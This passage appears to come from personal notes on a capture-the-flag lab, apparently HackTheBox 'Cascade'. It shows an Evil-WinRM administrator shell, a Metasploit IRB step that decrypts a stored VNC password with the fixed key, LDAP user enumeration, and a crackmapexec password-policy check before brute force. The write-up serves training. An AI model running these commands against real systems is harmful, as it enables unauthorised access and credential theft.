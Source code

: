 ```
Evil-WinRM shell v3.7
 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                       

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                         
  
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami

```
	- We grab the root flag
-----------
## Privilege Escalation in Target
- 
-------
--------
## Extras
- Meterpreter route to grab password for s.smith
	```bash
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"
>> 
```
-----
- Initially didn't find pwd in ldap (had to use grep -i and search for pwd instead of password)
	- Finding all users, fixing it to save to a file:
		```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" '(ObjectClass=user)' sAMAccountName | grep "sAMAccountName" > ldapusers
cat ldapusers | awk -F: '{print $2}' | awk '{print$1}' > fixedldapusers
```
		- We can also use `'(ObjectClass=Person)'` 
		- For the second command I use awk twice to remove the space
	- Checking password policy incase we brute force:
		```bash
crackmapexec smb 10.10.10.182 --pass-pol   
